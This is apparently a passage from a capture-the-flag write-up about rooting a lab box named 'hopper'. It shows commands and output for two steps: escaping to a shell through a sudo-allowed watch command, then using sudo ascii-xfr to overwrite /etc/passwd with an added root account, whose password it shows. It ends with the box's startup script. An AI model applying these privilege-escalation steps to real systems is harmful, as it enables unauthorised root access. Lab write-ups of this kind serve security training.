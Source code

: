 www-data@hopper:/var/www/html$ sudo -u henry /usr/bin/watch -x sh -c 'reset; exec sh 1>&0 2>&0'
sudo -u henry /usr/bin/watch -x sh -c 'reset; exec sh 1>&0 2>&0'
$ id
id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
henry@hopper:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for henry on hopper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on hopper:
    (root) NOPASSWD: /usr/bin/ascii-xfr
{% endhighlight %}

So the last parts of this box are **watch** (GTFOBins) and **ascii-xfr**. [ascii-xfr](https://linux.die.net/man/1/ascii-xfr) is used to:

>upload/download files using the ASCII protocol

I make a copy of /etc/passwd and then overwrite the original, like so:

{% highlight shell %}
henry@hopper:~$ cp /etc/passwd passwd
cp /etc/passwd passwd
henry@hopper:~$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> passwd
echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> passwd
henry@hopper:~$ sudo -u root /usr/bin/ascii-xfr -r /etc/passwd < ./passwd
sudo -u root /usr/bin/ascii-xfr -r /etc/passwd < ./passwd
ASCII download of "/etc/passwd"
henry@hopper:
henry@hopper:~$ su root2
su root2
Password: mrcake

root@hopper:/home/henry# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) grupos=0(root)
hopper
jue ene  6 07:04:59 CET 2022
root@hopper:/home/henry#
{% endhighlight %}

And that was that! I definitely had to get a couple of hints for this one. Out of interest, the internal webserver running on Port 2222 was run like so:

{% highlight shell %}
root@hopper:~# cat start.sh
cat start.sh
#!/bin/bash

/usr/bin/php -S 127.0.0.1:2222 -t /root/server/ &> /dev/null &
sleep 2
chmod -R 777 /var/www/*
sleep 1
chmod -R 700 /root/*
sleep 1
chmod -R 700 /home/*
sleep 1
chmod -R 600 /home/edward/.ssh/*
sleep 1
echo " " > /var/log/apache2/access.log
sleep 1
echo " " > /var/log/apache2/error.log
sleep 1
echo " " > /var/log/auth.log